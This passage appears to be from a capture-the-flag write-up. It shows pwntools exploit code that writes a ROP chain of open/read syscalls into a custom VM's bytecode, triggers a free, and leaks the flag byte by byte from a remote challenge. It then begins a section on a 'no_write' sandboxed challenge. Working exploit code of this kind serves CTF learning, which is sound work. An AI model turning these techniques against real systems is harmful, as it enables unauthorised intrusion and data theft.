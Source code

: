 ```python
			ret,p_rax,2,p_rdx_rsi,0,0,syscall_ret,
			p_rdi,0,p_rdx_rsi,0x80,buf,p_rax,0,syscall_ret,
			p_rax,0,p_rdx_rsi,0,buf-0x80+i,0x2f128,0x12188f
		]
		
		code += p8(instr["mov"])+p8(8)+p8(0)+p8(1)			# mov r0,r1 
		
		for value in payload:
			if value < 0x100:
				code += p8(instr["mov"])+p8(1)+p8(1)+p64(value)		# mov r1,value
				code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1
			else:			
				code += p8(instr["mov"])+p8(8)+p8(3)+p8(2)			# mov r3,r2
				code += p8(instr["add"])+p8(1)+p8(3)+p64(value)		# add r3,offset
				code += p8(instr["mov"])+p8(32)+p8(0)+p8(3)			# mov [r0],r3
			code += p8(instr["add"])+p8(1)+p8(0)+p64(0x8)			# add r0,0x8
		
		
		code += p8(instr["alloc"])+p32(0x200)				# alloc(0x200) ; trigger free
		code = push_code(code)
				
		p.recvuntil("code: ")
		p.send(code.ljust(0xf6d,p8(instr["nop"]))+p8(instr["jmp"])+p8(0xf1)+p8(instr["nop"])*0x90+'\xff')
		
		p.recvuntil("code: ")
		
		flag += chr(int(p.recv(),16))
		info(flag)
		
		p.close()
		
		# pause()
		
		if flag[-1] == '}':
			break;
	
if __name__ == "__main__":
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
	# elf = ELF("./easy_printf",checksec=False)
	instr = {"add":0,"sub":1,"mul":2,"div":3,"mov":4,"jsr":5,"and":6,"xor":7,"or":8,"not":9,"push":10,"pop":11,"jmp":12,"alloc":13,"nop":14}
	main(args['REMOTE'])

```

## no_write

The program only allows us to use open, read, exit and exit_group system calls, no write, so we have to find a way to leak the flag

